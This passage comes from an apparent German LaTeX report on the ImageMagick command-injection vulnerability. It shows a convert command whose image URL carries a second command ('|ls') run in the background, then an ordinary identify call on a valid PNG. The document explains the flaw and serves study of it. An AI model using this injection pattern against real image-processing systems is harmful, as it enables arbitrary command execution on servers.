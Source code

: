 \subsection{Erklärung und einfache Beispiele}\label{subsec:erklaerung-und-einfache-beispiele}

Bei den folgenden Beispielen wird eine Shell-Verbindung zum Zielsystem benötigt.\\

Im einfachsten Beispiel wird eine URL beim convert-Befehl angegeben.
Dahinter kann beliebiger Befehl angegeben werden, welcher im Hintergrund ausgeführt wird.
\begin{lstlisting}[language=Text, caption=convert-Befehl mit URL als einfachstes Beispiel,label={lst:einfachstesbeispiel}]
convert 'https://example.com/image.png"|ls "-la' image.jpg
\end{lstlisting}
\vspace{5mm}

Dieses Beispiel wurde im Kapitel "`Details der Schwachstelle"' schon sehr detailliert betrachtet.\\

Im Folgenden wird jeweils eine MVG Datei erstellt und diese anschließend mit dem Imagemagick-Befehl "`identify"' ausgeführt.
Dieser Befehl wird normalerweise dafür benutzt,
um Informationen über ein Bild - wie die Bildgröße oder den Bildtyp - zu bekommen.
Die Sicherheitslücke ist jedoch nicht nur auf diesen Befehl begrenzt.

\begin{lstlisting}[language=Bash, caption=Erklaerung - Identify einer validen PNG Datei,label={lst:lstlisting}]
> identify valid.png
valid.png PNG 320x240 320x240+0+0 8-bit sRGB 2c 302B 0.000u 0:00.000
\end{lstlisting}

